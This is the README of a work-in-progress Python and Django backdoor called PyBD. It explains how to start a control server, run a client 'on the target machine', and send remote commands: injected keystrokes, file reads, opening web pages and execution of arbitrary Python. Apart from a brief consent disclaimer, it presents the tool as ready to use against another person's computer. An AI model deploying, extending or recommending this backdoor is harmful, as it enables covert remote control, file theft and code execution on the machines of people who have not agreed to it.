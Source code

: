 # PyBD WIP
<h1>DO IT ON YOUR OWN RISK AND WITH CONSENT</h1>
<h4>We are not responsible for any damage you do</h4>
Backdoor made with python, django, sqlite (WIP)

<h1>What is a backdoor?</h1>
Basically you can gain access to another persons computer.



<h1>Usage:</h1>
<h4>First install all the libraries you need for this</h4>
<pre>pip install -r requirments.txt</pre>
<h4>Than, you need to start the server</h4>
<pre>cd server</pre>
<pre>python manage.py runserver</pre>
<h4>Run the main.py on the target machine</h4>
<pre>cd client</pre>
<pre>python main.py</pre>

<h1>Code Example</h1>
<pre>
keyboard:"
`ctrl + n`
www.youtube.com
`enter`
";

delay(5)

keyboard:"
`alt + f4`
";

cd ..

read("test.txt", "test1.txt")
volume(100)
web("www.google.com",5) 
python:"
print("hello world")
";
</pre>

<h2>More info <a href="https://github.com/ArmenG888/PyBD/blob/main/documentation.md">here</a>


